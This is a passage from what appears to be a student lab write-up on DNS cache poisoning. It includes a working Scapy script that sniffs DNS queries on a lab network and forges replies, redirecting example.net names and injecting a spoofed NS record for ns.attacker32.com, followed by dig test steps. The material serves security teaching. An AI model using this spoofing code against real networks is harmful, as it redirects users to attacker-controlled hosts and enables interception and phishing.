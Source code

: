 - `www.example.net` to IP `1.2.3.4`
- `mail.example.net` to IP `1.2.3.5`
- Any subdomain of `example.net` (`*.example.net`) to IP `1.2.3.6`

It also designates `ns.attacker32.com` as the authoritative nameserver and sets `mail.example.net` as the mail server.

Now that we're done with setting up the environment, let's get back to attacking!

I added a spoofed NS record in my attack code, and sniffed the packet that has `example.net` in its query name, instead of `www.example.net` like before - this way we can attack the whole `example.net` domain (e.g `abc.example.net, mail.example.net, etc`)
```python
 #!/usr/bin/env python3
from scapy.all import *
def spoof_dns_replies(pkt):
	if (DNS in pkt and  "example.net"  in pkt[DNS].qd.qname.decode('utf-8')):

		IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) # Response to the client

		UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) # Standard DNS port

		Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='1.2.3.4', ttl=259200) # Spoofed IP

		NSsec = DNSRR(rrname="example.net", type='NS', rdata='ns.attacker32.com', ttl=259200)

		DNSpkt = DNS(
					id=pkt[DNS].id,
					aa=1,
					rd=0,
					qr=1,
					qdcount=1,
					ancount=1,
					nscount=1,
					qd=pkt[DNS].qd,
					an=Anssec,
					ns=NSsec
				)

		spoofpkt = IPpkt / UDPpkt / DNSpkt
		send(spoofpkt)

sniff(iface="br-800b7a6f074a", filter="udp and (src host 10.9.0.53 and dst port 53)", prn=spoof_dns_replies) 
```
#### Execution Steps:

> Step 1 -3 are the same as the above task's steps

4. In the user machine, run `dig www.example.net`. The expected results should mirror those shown in the previous figures, indicating a successful simulation of the attack.

> We can also run `dig abc.example.net` or `dig mail.example.net` or basically anything that has `example.net` domain!
